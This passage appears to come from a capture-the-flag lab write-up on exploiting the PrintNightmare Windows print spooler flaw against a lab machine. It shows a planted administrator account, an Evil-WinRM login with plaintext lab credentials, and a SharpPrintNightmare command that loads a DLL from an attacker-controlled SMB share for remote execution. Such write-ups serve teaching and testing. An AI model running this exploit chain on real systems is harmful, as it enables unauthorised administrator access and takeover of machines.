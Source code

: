 

0xdf has been added:



    *Evil-WinRM* PS C:\programdata> net user 0xdf
    User name                    0xdf
    Full Name
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            7/8/2021 8:18:24 AM
    Password expires             Never
    Password changeable          7/8/2021 8:18:24 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   Never

    Logon hours allowed          All

    Local Group Memberships      *Administrators       *Users
    Global Group memberships     *None
    The command completed successfully.



And Evil-WinRM works as well:



    oxdf@parrot$ evil-winrm -i 10.10.10.149 -u 0xdf -p 0xdf0xdf

    Evil-WinRM shell v2.4

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\0xdf\Documents>



#### RCE

The same EXE can be run to get remote execution from Windows. I had a
tough time getting it working:



    PS > .\SharpPrintNightmare.exe '\\10.10.14.200\share\AddUserDll.dll' \\10.10.10.149 heist hazard stealth1agent
    [*] pDriverPath C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
    [*] Executing \\10.10.14.200\share\AddUserDll.dll
    [*] Try 1...
    [*] Stage 0: 5
    [*] Try 2...
    [*] Stage 0: 5
    [*] Try 3...
    [*] Stage 0: 5
